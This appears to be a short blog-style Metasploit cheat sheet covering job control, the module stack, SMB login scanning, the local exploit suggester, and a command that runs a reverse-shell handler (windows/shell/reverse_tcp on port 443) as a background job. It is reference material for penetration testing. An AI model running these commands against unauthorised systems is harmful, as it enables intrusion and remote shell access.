 ```yaml
---
layout: post
title:  "Metasploit Cheat Sheet"
---
```

# Metasploit - Cheat Sheet

## Core

### Jobs
```ruby
#List Jobs
jobs -l
#Kill all Jobs
jobs -K
#Kill single Job by ID
jobs -k 1
```

### Module

```ruby
#navigate through different active modules
use exploit/multi/handler
#push module on stack
pushm
use post/multi/recon/local_exploit_suggester
set session 1
use scanner/smb/smb_login
#list stack
listm
[*] Module stack:

[1]     post/multi/recon/local_exploit_suggester
[0]     exploit/multi/handler
#go to previous module and delete it from the stack
popm
```

### use a file with IP addresses for RHOSTS

```ruby
set RHOSTS file:/home/user/iplist.txt
```

### Run (Backgroundjob)

```ruby
use exploit/multi/handler
run -p windows/shell/reverse_tcp lhost=0.0.0.0 lport=443 -j
```
